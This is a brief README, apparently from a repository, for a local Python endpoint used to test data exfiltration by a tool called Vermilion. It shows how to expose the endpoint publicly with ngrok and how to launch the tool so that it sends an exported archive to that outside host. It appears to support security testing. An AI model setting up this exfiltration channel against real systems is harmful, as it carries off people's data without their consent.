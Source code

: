 # Test Exfiltration Locally

This directory contains a simple http server writte in python to test exfiltration locally.  

I suggest using also [*ngrok*](https://ngrok.com/), [*Cloudflare Tunnels*](https://developers.cloudflare.com/cloudflare-one/connections/connect-networks/) or similar, to expose the exfiltration endpoint publicly for the tests.  

## Instructions  

Launch the python endpoint:  
```sh
python3 endpoint.py
```  
Expose the endpoint server publicly via `ngrok`:  
```sh
ngrok http 8089
```  

Launch Vermilion:  
```sh
go run main.go -e https://<your-ngrok-endpoint-here>
```  

If everything went well you should see the exported archive in the current directory!  





